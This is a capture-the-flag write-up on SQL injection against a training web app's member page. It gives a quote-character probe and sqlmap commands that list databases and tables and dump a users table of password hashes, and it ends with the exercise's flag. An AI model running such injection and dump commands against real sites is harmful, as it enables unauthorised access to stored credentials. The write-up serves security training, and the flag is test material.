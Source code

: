 # SQL injection
The member page [http://10.203.72.119/?page=member](http://10.203.72.119/?page=member "member page") is vunerable to ***sql injection***

If we submit a ***'*** as the member id 
[http://10.203.72.119/?page=member&id=%27&Submit=Submit#](http://10.203.72.119/?page=member&id=%27&Submit=Submit#)

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1

We can then use ***sqlmap***, which with this command.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1'
```
We then discover that we have differnt types of sql injections that can be used to penetrate this web application, types listed as follows
1. Boolean-based blind sql
1. Error-based
1. Time-based blind
1. Union query

Futhering this process we then check the names of the databases they have, achived using the command
```bash
sqlmap -u '10.203.72.119/?page=members&id=1' --dbs
```
We then get this output
```bash
[03:54:15] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[03:54:15] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] Member_Brute_Force
[*] Member_guestbook
[*] Member_images
[*] Member_Sql_Injection
[*] Member_survey
```
Or we can use the command below to get a detailed database and its tables.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1' -tables
```
Which will show us that there is a table named users, and this is were all the passwords are. Below is the output for this command where we find the 
```bash
Database: Member_Sql_Injection
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+
```
We then look futher in the users table, to see some sensitive information, we use following command to ***dump*** the table to see whats in it.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1' -T users --dump
```
results

``` bash
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```
We then follow the instructions to decrypt the password, which decrypts to ***FortyTwo***, then lower all characters to ***fortytwo***. Then converted to sh256 will result to ***10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*** which is the flag

## Manipulation

## Solution


